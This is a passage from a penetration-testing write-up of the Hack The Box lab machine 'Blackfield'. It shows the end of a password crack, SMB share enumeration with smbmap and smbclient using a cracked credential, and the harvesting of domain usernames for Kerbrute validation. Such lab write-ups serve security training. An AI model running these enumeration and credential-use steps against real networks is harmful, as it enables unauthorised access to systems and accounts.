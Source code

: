 ```shell
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### Penetration

#### Authenticated SMB Enumeration

With smbmap we can use our credentials to enumerate the SMB service. There appears to be a number of non-default shares on the target server that this user can access.

```bash
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ smbmap -d 'BLACKFIELD.local' -u 'support' -p '#00^BlackKnight' -H 10.10.10.192
[+] IP: 10.10.10.192:445        Name: 10.10.10.192                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
```

Further enumeration of the `profiles$` share shows that we can access directories for all users on the box. At minimum th is provides us with a much larger username list. For this I copied out the list of users and to users.list and then I used `cat users.list | awk '{print $1}'` to format just the usernames out of it. That output was then saved back to users.list

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ smbclient '//10.10.10.192/profiles$' -U 'BLACKFIELD.LOCAL/support'                     
Password for [BLACKFIELD.LOCAL\support]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
### SNIP ###
  ZScozzari                           D        0  Wed Jun  3 12:47:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 12:47:12 2020
  ZWausik                             D        0  Wed Jun  3 12:47:12 2020

                5102079 blocks of size 4096. 1690956 blocks available
smb: \> 
```

With some further investigation it appears that not all users in the list are real. We can use this list to determine real users once again with Kerbrute as shown below. The list returned will supply us with the relevent list of usernames for the domain.
